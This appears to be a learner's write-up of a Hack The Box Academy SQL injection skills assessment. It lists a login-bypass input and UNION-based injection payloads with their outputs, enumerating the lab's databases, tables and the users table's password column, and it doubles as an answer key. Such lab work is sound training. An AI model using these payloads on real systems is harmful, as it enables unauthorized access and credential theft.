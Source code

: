 # Hack The Box Academy

## Skills Assessment - SQL Injection Fundamentals

## Authentication bypass login page

username: `' or 1=1-- -`

Now to all union attack inside search bar

## Find curent databanse name

`0' union select 1, database(), 2,4,5;-- -`

ilfreight

## Find current user

`0' union select 1, user(), 2,4,5;-- -`

root@localhost

## Find all database names

`0' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -`

information_schema
mysql
performance_schema
ilfreight
backup

## Find all tables inside ilfreight database

`0' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -`

users 	  ilfreight
payment 	ilfreight

## Find all coloumn of user tables

`0' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -`

USER 	               users 	performance_schema
CURRENT_CONNECTIONS  users 	performance_schema
TOTAL_CONNECTIONS 	 users 	performance_schema

id 	      users 	ilfreight
username 	users 	ilfreight
password 	users 	ilfreight

